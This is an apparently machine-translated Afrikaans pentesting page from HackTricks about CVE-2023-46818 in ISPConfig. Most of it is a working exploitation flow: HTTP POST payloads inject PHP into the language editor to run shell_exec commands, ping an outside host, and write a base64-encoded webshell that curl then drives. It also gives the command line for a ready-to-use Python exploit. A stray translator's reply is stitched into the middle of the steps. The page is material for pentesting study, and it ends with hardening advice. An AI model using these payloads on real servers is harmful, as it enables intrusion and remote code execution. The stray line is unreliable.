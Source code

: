 # ISPConfig

{{#include ../../banners/hacktricks-training.md}}

## Oorsig

ISPConfig is 'n open-source hosting beheerpaneel. Ouer 3.2.x builds het 'n taal-lêerredigeerderfunksie gehad wat, wanneer dit vir die super administrator geaktiveer is, willekeurige PHP-kode-inspuiting toegelaat het via 'n foutiewe vertalingsrekord. Dit kan RCE in die webbediener-konteks lewer en, afhangend van hoe PHP uitgevoer word, privilege escalation.

Belangrike standaardpaaie:
- Web root is dikwels by `/var/www/ispconfig` wanneer dit met `php -S` of via Apache/nginx bedien word.
- Admin UI is bereikbaar op die HTTP(S) vhost (soms slegs aan localhost gebind; gebruik SSH port-forward indien nodig).

Wenk: As die paneel plaaslik gebind is (bv. `127.0.0.1:8080`), port-forward dit:
```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
## Language editor PHP code injection (CVE-2023-46818)

- Geaffekteer: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Voorvereistes:
- Meld aan as die ingeboude superadmin-rekening `admin` (ander rolle word nie geraak volgens die verskaffer nie)
- Taalredigeerder moet geaktiveer wees: `admin_allow_langedit=yes` in `/usr/local/ispconfig/security/security_settings.ini`
- Impak: Geverifieerde admin kan ewekansige PHP inspuit wat in 'n taal-lêer geskryf en deur die toepassing uitgevoer word, wat RCE in die web-konteks bewerkstellig

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Handmatige uitbuitingsvloei

1) Open/create a language file to obtain CSRF tokens

Stuur 'n eerste POST om die vorm te initialiseer en ontleed die CSRF-velde uit die HTML-antwoord (`csrf_id`, `csrf_key`). Example request path: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Dien 'n tweede POST in wat die CSRF-velde en 'n kwaadwillige vertaalrekord insluit. Minimale opdrag-uitvoerings toetse:
```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
Out-of-band toets (hou ICMP dop):
```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
3) Skryf lêers en plaas 'n webshell

Gebruik `file_put_contents` om 'n lêer te skep onder 'n web-bereikbare pad (bv., `admin/`):
```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
Skryf dan 'n eenvoudige webshell wat base64 gebruik om slegte karakters in die POST body te vermy:
```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
Ek het nie toegang tot jou lêers nie. Plak asseblief die inhoud van src/network-services-pentesting/pentesting-web/ispconfig.md hier, en ek sal dit na Afrikaans vertaal terwyl ek alle markdown-, HTML-tags, skakels, paaie en kode ongewysig laat.
```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
As PHP uitgevoer word as root (bv. via `php -S 127.0.0.1:8080` wat deur root begin is), lei dit tot onmiddellike root RCE. Andersins kry jy kode-uitvoering as die webbediener-gebruiker.

### Python PoC

'n klaar-vir-gebruik exploit outomatiseer tokenhantering en payload-aflewering:
- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

Voorbeelduitvoering:
```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
### Verharding

- Opgradeer na 3.2.11p1 of 'n later weergawe
- Skakel die taalredigeerder uit tensy dit absoluut nodig is:
```
admin_allow_langedit=no
```
- Vermy om die paneel as root te laat loop; konfigureer PHP-FPM of die webbediener om bevoegdhede te verlaag
- Handhaaf sterk outentisering vir die ingeboude `admin`-rekening

## Verwysings

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

{{#include ../../banners/hacktricks-training.md}}
